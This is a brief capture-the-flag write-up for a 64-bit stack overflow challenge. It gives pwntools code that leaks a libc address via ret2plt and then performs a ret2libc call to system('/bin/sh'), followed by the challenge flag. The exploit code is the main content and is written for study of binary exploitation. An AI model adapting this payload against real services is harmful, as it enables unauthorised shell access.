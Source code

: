# Proof of Concept

## TL;DR

- Get libc offset from ret2plt (basically [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/ret2plt-aslr-bypass) but 64-bit)
```py
offset = 40
pop_rdi = 0x000000000040117a
ret = 0x000000000040101a

leak_payload = flat(
    cyclic(offset, n=8),
    pop_rdi,
    exe.got.puts,
    exe.plt.puts,
    exe.sym['_start']
)
io.sendlineafter(b'gets\n', leak_payload)
puts_leak = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
log.success(f'puts leak: {hex(puts_leak)}')
```
- Do classic ret2libc on 64 bit binary after offset
```py
system = libc.symbols['system'] + puts_leak
binsh = next(libc.search(b'/bin/sh')) + puts_leak

payload = flat(
    cyclic(offset, n=8),
    pop_rdi,
    binsh,
    ret,
    system
)
io.sendlineafter(b'gets\n', payload)
```

### Flag: 
> HCS{41_but_i_G0T_41_g04lzz_[a-fA-F0-9]{8}-([a-fA-F0-9]{4}-){3}[a-fA-F0-9]{12}}